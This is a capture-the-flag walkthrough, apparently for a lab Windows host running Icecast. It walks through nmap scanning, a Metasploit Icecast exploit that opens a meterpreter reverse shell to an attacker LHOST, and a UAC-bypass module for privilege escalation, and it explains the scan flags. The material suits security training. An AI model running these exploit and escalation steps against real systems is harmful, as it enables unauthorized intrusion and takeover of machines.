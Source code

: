 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/840a880a-ad6f-4564-bd9e-b86da62e7bee"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.232.204
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9159be91-a586-4a71-acff-4ed2155dab36"></picture><br>TTL = 127 ==> WINDOWS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.232.204 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a5fc01b0-3828-4862-b6a3-28f3e37cb5e0"></picture><br>Accessible ports 135,139,445,3389,5357,8000,49152,49153,49153,49154,49158,49159,49160 </h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p135,139,445,3389,5357,8000,49152,49153,49153,49154,49158,49159,49160 10.10.232.204 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
Specifies which ports will be scanned.
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/39faf896-7246-474b-9e75-589a46839150"></picture><br>We now have a little more information about our target.</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

### **- Looking for vulnerabilities:**

<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/cf051c80-081b-4a36-ad2f-4ae57f1cd2b8"></picture><br>We see vulnerabilities.</h3><hr style="border-color:red;">

<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/603d9454-6d85-4b28-b78d-57dd040c3d3a"></picture><br>We have some ways of entry.</h3><hr style="border-color:red;">

### **- Looking for vulnerabilities with nmap:**
```bash
nmap --script "vuln and safe" -p445 10.10.60.82
```
```
--script "vuln and safe" → Runs Nmap scripts that belong to both the vuln (vulnerability detection) and safe (non-destructive) categories.

-p445 → Specifies scanning only port 445 (SMB/Windows file sharing).
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/ba826b24-b3d9-4042-b35e-329dc9076626"></picture><br>we have nothing here</h3><hr style="border-color:red;">

### **- We will search for possible sploits with METASPLOIT:**

```bash
msfdb init && msfconsole
```
```
msfdb init (Initialize Metasploit Database)
msfconsole (Launch Metasploit Console)
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/35e77232-db99-4fcc-b5db-c82e76f8c89a"></picture></h3>

```bash
search icecast
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/ce565f56-fa42-4e1a-a3b0-b9e135f6936a"></picture><br>We have a sploit, we will see what information it asks for to be able to use.</h3>

```bash
use 0
show options
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/18ac66d3-c16f-46e3-948c-d6e4c3fb4eed"></picture><br>We ask for RHOST and LHOST</h3>

```bash
set RHOSTS 10.10.232.204
set LHOST 10.21.118.81
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/865657ba-d982-4b5d-8e36-f3ff18511a5b"></picture><br>We have access to the machine from a meterpreter.</h3>

### **- Obtaining information from the breached machine:**

```bash
getuid
sysinfo
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/dffab597-b0af-47ca-89d9-a22639722520"></picture><br></h3>

### **- We will evaluate the target system for possible privilege escalation using a METASPLOIT module:**
```bash
run post/multi/recon/local_exploit_suggester
```
```
El módulo post/multi/recon/local_exploit_suggester de Metasploit es una herramienta de post-explotación que analiza el sistema comprometido en busca de vulnerabilidades explotables localmente.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/eab6c892-7509-45ef-b59e-32e21ed695b7"></picture><br>We have several sploits that could help us to break into the system.</h3>

### **- Now we will send our meterpreter session to the second plate and run the metasploit module to breach the machine:**
```bash
CTRL+Z
sesions
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a9cd857f-d122-47a4-bdbc-4f239be80ac2"></picture></h3>

### **- We load our module and add the required information and start the sploit:**
```bash
use exploit/windows/local/bypassuac_eventvwr
set session 1
set LHOST 10.21.118.81
run
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f9ed5220-4f06-4c51-92e0-df83f8cf63af"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/b36cbe19-6c39-4c19-b472-6585dd339474"></picture>We are in!</h3>

### **- we checked the machine a little bit:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d4e8f77-cd09-463d-a02e-c60336a7794f"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/65e4fb2a-6ced-492c-92ac-ec799136e8f7"></picture></h3>
<h3 align="center"><picture><img src = "!https://github.com/user-attachments/assets/11326afd-9977-4f8c-8b70-b53362a9f7f2"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1b6e09b4-b762-48d6-ada6-53b17f1ba027"></picture></h3>

